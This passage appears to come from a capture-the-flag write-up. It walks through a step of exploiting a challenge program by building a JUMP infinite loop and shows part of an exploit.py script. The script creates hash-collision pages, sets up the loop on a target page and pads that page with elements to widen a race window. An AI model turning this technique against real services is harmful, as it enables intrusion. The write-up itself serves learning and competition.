 - Step 4.
Rebuild infinite loop by modifying `JUMP 3->1` to `JUMP 2->3`. Restore the intermediate jump `1->2`. Blocking again at `2<->3`.
```
|0. CHAR:i_2|1. JUMP:2|2. JUMP:3|3. JUMP:2|4. END|
```

- Back to step 2. until all characters are written. Then, break out of infinite loop `JUMP 3->4`

### exploit.py

From here everything is pretty straightforward, I created a small API to communicate with the program which can be found in [exploit.py](exploit.py#L84). The key elements of the script are:

```python
'''
This function builds the pages inside the map
'''
def build():

    for page in collisions[:pages]:
        page = int(page)
        mainMenu.create_new_page(page)

        # Add the infinite loop only to our target page to improve performance
        if page == last_page:
            mainMenu.edit_page(page)

            pageMenu.add_element()
            pageMenu.edit_element(0)

            # add first element of secret
            stringsMenu.edit_generator(0)
            stringsMenu.char(secret[0])       
            
            # intermediate jump
            stringsMenu.edit_generator(1)
            stringsMenu.jump(2)

            # infinite loop 2<->3`
            stringsMenu.edit_generator(2)
            stringsMenu.jump(3)

            stringsMenu.edit_generator(3)
            stringsMenu.jump(2)

            # return
            stringsMenu.ret()
            pageMenu.ret()

    # Backup the pages
    mainMenu.store_backed()

    # Add a large amount of elements to our target (last) page 
    # so it takes some time to iterate them all increasing our window
    mainMenu.edit_page(last_page)
    for i in range(last_page_elem_count):
        pageMenu.add_element()

    pageMenu.ret()
    io.recvuntil(b"> ")

    build_log.success("Done")

'''
```